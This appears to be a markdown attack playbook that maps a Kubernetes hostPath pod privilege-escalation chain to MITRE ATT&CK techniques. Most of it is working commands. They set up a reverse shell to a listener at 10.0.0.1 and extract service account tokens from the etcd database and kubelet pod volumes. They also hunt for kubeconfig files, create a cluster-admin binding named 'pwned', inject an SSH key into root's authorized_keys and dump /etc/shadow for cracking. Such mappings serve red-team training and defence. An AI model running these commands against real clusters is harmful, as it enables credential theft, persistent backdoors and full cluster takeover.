

# MITRE ATT&CK Mapping: hostPath Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy pod with unrestricted hostPath volume

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy container with hostPath volume mounting host root filesystem for read/write access

**Pod Configuration:**
```yaml
spec:
  containers:
  - volumeMounts:
    - mountPath: /host
      name: noderoot
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it hostpath-exec-pod -- bash
cd /host
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session and navigate to mounted host filesystem

---

### Step 1.3: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/hostpath/pod/hostpath-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch shell and navigate to host filesystem
cd /host
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl for command and control

---

## Phase 2: Post Exploitation

### Step 2.1: Enumerate cluster nodes to identify control-plane

**Command:**
```bash
kubectl get nodes
```

**MITRE Techniques:**
- **T1082** - System Information Discovery
  - Enumerate cluster nodes to identify control-plane nodes for etcd access

**Example Output:**
```
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

---

### Step 2.2: Redeploy pod on control-plane node (if needed)

**Commands:**
```bash
# Edit manifest to add nodeName selector
# nodeName: k8s-control-plane

kubectl apply -f manifests/hostpath/job/hostpath-exec-job.yaml
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Redeploy container on control-plane node for access to etcd database

---

### Step 2.3: Extract secrets from etcd database

**Commands:**
```bash
# Locate etcd data directory
ps -ef | grep etcd | sed s/\\-\\-/\\\\n/g | grep data-dir

# View raw etcd database
strings /host/var/lib/etcd/member/snap/db | less

# Extract all service account tokens
db=`strings /host/var/lib/etcd/member/snap/db`; for x in `echo \"$db\" | grep eyJhbGciOiJ`; do name=`echo \"$db\" | grep $x -B40 | grep registry`; echo $name \\| $x; echo; done

# Extract kube-system default token
db=`strings /host/var/lib/etcd/member/snap/db`; for x in `echo \"$db\" | grep eyJhbGciOiJ`; do name=`echo \"$db\" | grep $x -B40 | grep registry`; echo $name \\| $x; echo; done | grep kube-system | grep default
```

**MITRE Techniques:**
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Extract Kubernetes secrets directly from etcd database on control-plane node
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Read service account tokens from etcd database file

**Example Output:**
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```

---

### Step 2.4: Search for kubeconfig files on host filesystem

**Commands:**
```bash
find /host -name kubeconfig 2>/dev/null
find /host -name .kube 2>/dev/null
find /host/root -name "*.conf" 2>/dev/null | grep -i kube
grep -R "current-context" /host/home/ 2>/dev/null
grep -R "current-context" /host/root/ 2>/dev/null
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Search for kubeconfig files containing cluster-admin or high-privilege credentials
- **T1083** - File and Directory Discovery
  - Enumerate filesystem for Kubernetes configuration files

---

### Step 2.5: Use discovered kubeconfig for cluster access

**Commands:**
```bash
# If kubeconfig file found
export KUBECONFIG=/host/root/.kube/config
kubectl get secrets -n kube-system
kubectl get nodes
```

**MITRE Techniques:**
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use valid kubeconfig credentials to authenticate to Kubernetes API server

---

### Step 2.6: Transfer can-they.sh to enumerate tokens

**Commands:**
```bash
# From outside pod
kubectl cp scripts/can-they.sh hostpath-exec-pod:/

# Exec into pod (without chroot)
kubectl exec -it hostpath-exec-pod -- bash
```

**MITRE Techniques:**
- **T1105** - Ingress Tool Transfer
  - Transfer enumeration script to compromised pod

---

### Step 2.7: Run can-they.sh to steal and enumerate all pod tokens

**Commands:**
```bash
chmod +x can-they.sh

# List all permissions in kube-system namespace
./can-they.sh -i \"--list -n kube-system\"

# Check if any token can list secrets
./can-they.sh -i \"list secrets -n kube-system\"

# Check if any token can create pods
./can-they.sh -i \"create pods -n kube-system\"

# Check if any token can create clusterrolebindings
./can-they.sh -i \"create clusterrolebindings\"
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Access service account tokens from `/host/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*/token`
- **T1613** - Container and Resource Discovery
  - Enumerate permissions of stolen service account tokens

**Script Behavior:**
```bash
# can-they.sh internally does:
# 1. Finds all tokens from /host/var/lib/kubelet/pods/*
# 2. For each token, tests: kubectl --token=$token auth can-i [user-input]
```

---

### Step 2.8: Use high-privilege token for lateral movement

**Commands:**
```bash
# If a token has cluster-admin or high privileges
export TOKEN=\"eyJhbGciOiJSUzI1NiIsImtpZCI6...[stolen token]\"

# Use token to access secrets
kubectl --token=$TOKEN get secrets -n kube-system

# Create cluster-admin binding for persistence
kubectl --token=$TOKEN create clusterrolebinding pwned --clusterrole=cluster-admin --serviceaccount=default:default
```

**MITRE Techniques:**
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use stolen high-privilege service account token for authentication
- **T1098.001** - Account Manipulation: Additional Cloud Credentials
  - Create clusterrolebinding to grant cluster-admin to controlled service account

---

### Step 2.9: Add SSH key for persistent access

**Commands:**
```bash
# Generate SSH key pair (if needed)
ssh-keygen -t rsa -b 4096

# Add public key to node's authorized_keys
echo \"ssh-rsa AAAA... attacker@host\" >> /host/root/.ssh/authorized_keys

# SSH to node
ssh root@node-ip-address
```

**MITRE Techniques:**
- **T1098.004** - Account Manipulation: SSH Authorized Keys
  - Add SSH public key to root's authorized_keys for persistent access
- **T1021.004** - Remote Services: SSH
  - Use SSH with added key to access node directly

---

### Step 2.10: Dump /etc/shadow for password cracking

**Commands:**
```bash
# Copy shadow file
cat /host/etc/shadow

# Crack passwords offline
# john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
# hashcat -m 1800 shadow.txt rockyou.txt
```

**MITRE Techniques:**
- **T1003.008** - OS Credential Dumping: /etc/passwd and /etc/shadow
  - Extract password hashes from host's /etc/shadow file
- **T1110.002** - Brute Force: Password Cracking
  - Crack password hashes offline to access other nodes

---

### Step 2.11: Examine mounted volumes of other pods

**Commands:**
```bash
# Find all pod volumes
find /host/var/lib/kubelet/pods -type d -name volumes

# Look for interesting mounted secrets
ls -la /host/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/
cat /host/var/lib/kubelet/pods/*/volumes/kubernetes.io~configmap/*/config.yaml
```

**MITRE Techniques:**
- **T1552.007** - Unsecured Credentials: Container API
  - Access mounted secrets and configmaps from other pods on the same node
- **T1005** - Data from Local System
  - Collect sensitive data from pod volumes mounted on the host filesystem

---

## Phase 3: General Pod Attacks

### Step 3.1: Standard pod exploitation techniques

**Procedures:**

Even with only hostPath access, standard pod attacks apply:

- Access cloud metadata service
- Query kubelet/kube-apiserver with anonymous-auth
- Hunt for vulnerable services in cluster
- Exploit known Kubernetes CVEs

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata endpoints for IAM credentials

**Reference:** See [nothing-allowed/README.md](../nothing-allowed) for details

---

## Cleanup

### Delete the pod

**Command:**
```bash
kubectl delete pod hostpath-exec-pod
# Or using manifest
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pod to clean up evidence of exploitation

> [!WARNING]
> If you modified host filesystem (SSH keys, /etc/shadow, etc.), you must manually clean up those changes as deleting the pod does NOT remove them.

---

## Summary

### Key Attack Vectors

1. **Filesystem Access** - Primary attack vector with read/write access to entire host filesystem
2. **etcd Database Extraction** - On control-plane nodes, direct access to all cluster secrets
3. **Token Stealing** - Access all service account tokens from pods on the same node
4. **Kubeconfig Discovery** - Search for cluster-admin credentials left on nodes
5. **Persistent Access** - Add SSH keys, create backdoor accounts, establish persistence

### Escalation Paths (Priority Order)

1. **etcd secrets** (if on control-plane) → Immediate cluster-admin
2. **kubeconfig files** → Potentially cluster-admin or high privileges
3. **Service account tokens** (via can-they.sh) → Variable privileges, enumerate for escalation
4. **SSH key injection** → Persistent node-level access
5. **Password cracking** → Access to other nodes or control-plane

### Configuration Details

```yaml
spec:
  containers:
  - volumeMounts:
    - mountPath: /host
      name: noderoot
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

This configuration grants:
- Read/write access to entire host filesystem
- Access to all files in `/var/lib/kubelet/pods` (all pod volumes and tokens)
- Access to etcd database on control-plane nodes
- Ability to modify system files, add SSH keys, create users
- Access to all configuration files, logs, and credentials on the node

### References

- [The Path Less Traveled: Abusing Kubernetes Defaults (BlackHat 2019)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
- [Command and KubeCTL: Real-World Kubernetes Security](https://www.youtube.com/watch?v=cRbHILH4f0A)
